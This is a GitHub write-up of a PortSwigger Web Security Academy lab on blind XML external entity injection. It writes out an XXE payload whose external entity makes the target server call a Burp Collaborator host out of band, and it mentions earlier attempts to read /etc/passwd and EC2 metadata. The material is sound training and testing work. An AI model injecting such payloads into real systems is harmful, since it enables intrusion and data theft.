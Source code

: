 \+ Lab #3    : Blind XXE with out-of-band interaction\
\+ Lab Level : Practitioner\
\+ Link      : https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

## About:
This lab has a ```Check stock``` feature that parses XML input but does not display the result.<br/>
You can detect the [blind XXE vulnerability](https://portswigger.net/web-security/xxe/blind) by triggering out-of-band interactions with an external domain.<br/>
To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.<br/>

## End Goal:
Make the XML parser issue a ```DNS lookup``` and ```HTTP requests``` to ```Burp Collaborator's default public server```.

* First of all, we need to find an XML data entry point where we can test for XXE vulnerability.
* According to the lab description, the target Web Application has a check stock feature that parses XML input.
  ![XXE](https://user-images.githubusercontent.com/101610095/221443861-16357268-24f6-40be-9eba-cf94b6c412a8.png)
* Let's visit the ```/product``` page and intercept the POST request after clicking on the ```check stock``` button:
  ![XXE2](https://user-images.githubusercontent.com/101610095/221443309-560773a8-e280-438b-b7e9-162d23f0d046.png)
* As you can see here, after clicking on the check stock button, a client-side script issues a POST request to the server, and then the server respond with the following response:<br/> 
  ![XXE3](https://user-images.githubusercontent.com/101610095/221443796-aa626e12-d1df-4bc4-80a2-b2d2d82e0e89.png)
* The client-side script will then process the server's response and update part of the user interface by displaying the number of products left.<br/>
  ![XXE1](https://user-images.githubusercontent.com/101610095/221443008-d18e6537-9e12-4868-9742-a4f126fd598b.png)

## Exploitation:
### Manual:
#### Testing for classic XXE:
* Let's try to retrieve the content of ```/etc/passwd``` file: <br/>
  ![1](https://user-images.githubusercontent.com/101610095/221957490-3527b9de-653e-4e83-b7f8-eb9074b3e4b4.png)
* Let's try performing an ```SSRF``` attack to retrieve EC2 instance meta-data:<br/>
  ![2](https://user-images.githubusercontent.com/101610095/221957499-f594bca5-f8aa-4a0d-9cf2-d320892d3ab1.png)

* As you can see, the Web App is not vulnerable to ```classic XXE```, so let's test if it's the case for ```Blind XXE```

#### Testing for Blind XXE:
* Testing for Blind XXE with out-of-band interaction, is making the target server issue a request to our (Attacker's) server, and then monitor for any DNS lookup or HTTP request from the target server.
* For example, the following payload defines an external entity which will make the target server issue a back-end HTTP request to the specified URL.
```XML
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://2y1g99swzo9j2qzydwi059hca3gu4lsa.oastify.com"> ]>
```
> 📝: **NOTE:** <br/>
> * Since Portswigger's firewall blocks interactions between the Labs and arbitrary external systems, we will be using Burp Collaborator's default public server to perform the attack.<br/>
> * In order to get the url of Burp Collaborator's default public server, go to the ```Collaborator``` tab and then ```Start collaborator```, and finally copy the URL by clicking on ```Copy to Clipboard```<br>

* Now, Let's inject this external entity in between the ```XML Prolog``` and the root element ```<stockCheck>``` and replace the *productId* number with a reference to our malicious external entity ```&xxe;``` just like we did in the previous labs :
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://2y1g99swzo9j2qzydwi059hca3gu4lsa.oastify.com"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
  1
  </storeId>
</stockCheck>
```
* Let's send the request: <br/>
  ![2023-02-28 20_58_25-Burp Suite Professional v2022 11 4 - Temporary Project - licensed to surferxyz](https://user-images.githubusercontent.com/101610095/221964994-d0b5713b-f93f-4a58-920d-864b122b2e94.png)

* Now, go to the ```Collaborator``` tab and click on ```Poll now```, you should see some DNS and HTTP interactions that were initiated by the target server as the result of the payload.<br/>
  ![2023-02-28 21_00_59-Burp Suite Professional v2022 11 4 - Temporary Project - licensed to surferxyz](https://user-images.githubusercontent.com/101610095/221965471-d9bd024d-1d06-4878-ac0b-86d9ef08eea7.png)

* And with this, we triggered an out-of-band interaction with the target server, thus the target Web App is vulnerable to ```Blind XXE```
### Automated:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/XXE%20Injection/Lab%232/Lab-2.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
usage: Lab-3.py [-h] -u URL [-n]

Usage Example: python3 Lab-3.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy
```

